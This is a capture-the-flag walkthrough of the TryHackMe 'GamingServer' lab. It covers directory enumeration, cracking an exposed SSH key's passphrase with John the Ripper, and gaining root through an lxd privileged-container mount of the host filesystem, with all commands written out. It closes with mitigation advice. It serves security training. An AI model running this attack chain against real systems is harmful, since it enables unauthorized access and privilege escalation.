 # 🟩 GamingServer – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** August 29, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and hidden directories on the target.  
**Commands Used:**  
- `rustscan $IP`  
- `gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`  

**Findings:**  
- Open ports: SSH (22) and HTTP (80).  
- Gobuster revealed a hidden `/secret` directory containing an SSH key.  

---

## 2. Exploitation Process  
**Step 1 – SSH Key Retrieval and Cracking**  
- Downloaded `SecretKey` from `/secret`.  
- Converted to hash format:  
  `python ssh2john.py SecretKey > id_rsa.hash`  
- Cracked passphrase with John the Ripper:  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Note: This format may emit false positives, so it will keep trying even after
  finding a possible candidate.
  Press 'q' or Ctrl-C to abort, almost any other key for status
  letmein          (id_rsa)
  1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
  Session completed
  ```
- Identified username `john` from `https://$IP/index.html` source code.  

**Step 2 – SSH Access as John**  
- Connected via SSH:  
  `ssh john@$IP -i ./SecretKey`  
- Entered passphrase `letmein` to log in.  
- Retrieved user flag:  
  ```bash
  cat user.txt
  a****************e
  ```
- Outcome: User flag retrieved.  

**Step 3 – Privilege Escalation via LXD**  
- Noticed membership in `lxd` group via `id` command.  
- Built Alpine image locally:  
  ```bash
  git clone https://github.com/saghul/lxd-alpine-builder.git
  cd lxd-alpine-builder
  ./build-alpine
  ```
- Started web server:  
  `python -m SimpleHTTPServer`  
- Downloaded image to target:  
  `cd /tmp`  
  `wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz`  
- Imported and initialized container:  
  ```bash
  lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
  lxc init myimage ignite -c security.privileged=true
  lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  lxc start ignite
  lxc exec ignite /bin/sh
  whoami
  ```
- Retrieved root flag:  
  ```bash
  cat mnt/root/root/flag.txt
  2************c
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **SSH Key Cracking:**  
  `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash` yielded `letmein`.  
- **LXD Privilege Escalation:**  
  Imported Alpine image and mounted root filesystem to gain root shell.  

---

## 4. Privilege Escalation  
- Exploited LXD container privileges to mount the root filesystem and access the root flag.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/secret`).  
- **SSH Security:**  
  - Avoid exposing private keys; enforce strong passphrases and restrict key usage.  
- **Privilege Management:**  
  - Limit `lxd` group membership to authorized users only.  
  - Disable unprivileged container creation if not needed.  
- **Patch Management:**  
  - Update OpenSSH and web server software to latest versions.  
  - Monitor for unauthorized container activity.  

---

## 6. Lessons Learned  
- **Exposed Credentials:** Hidden SSH keys are vulnerable if accessible via web directories.  
- **LXD Exploitation:** Membership in `lxd` group can lead to privilege escalation.  
- **Enumeration Importance:** Thorough directory scanning reveals critical assets.  

---

## 7. Skills Practiced  
- Network scanning (rustscan)  
- Web directory enumeration (gobuster)  
- SSH key cracking (ssh2john, john)  
- LXD privilege escalation  
- Secure reporting and mitigation strategies  
